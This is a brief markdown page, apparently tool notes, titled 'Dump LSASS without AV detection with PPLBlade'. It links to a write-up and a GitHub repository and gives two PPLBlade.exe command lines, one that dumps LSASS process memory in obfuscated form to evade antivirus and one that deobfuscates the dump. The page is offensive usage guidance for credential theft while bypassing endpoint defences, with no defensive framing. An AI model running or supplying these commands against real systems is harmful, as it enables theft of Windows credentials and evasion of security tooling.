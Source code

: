 # Dump LSASS without AV detection with PPLBlade

## Link: https://tacticaladversary.io/adversary-tactics/bypass-defender-and-ppl-protection-to-dump-lsass/?s=08

## Github repo: https://github.com/tastypepperoni/PPLBlade

### Example Usage:

#### 1) PPLBlade.exe --mode dothatlsassthing --obfuscate (Dump obfuscated dump file)

#### 2) PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade (Deobfuscate dump file)

### For more details, consult the github repository for more.
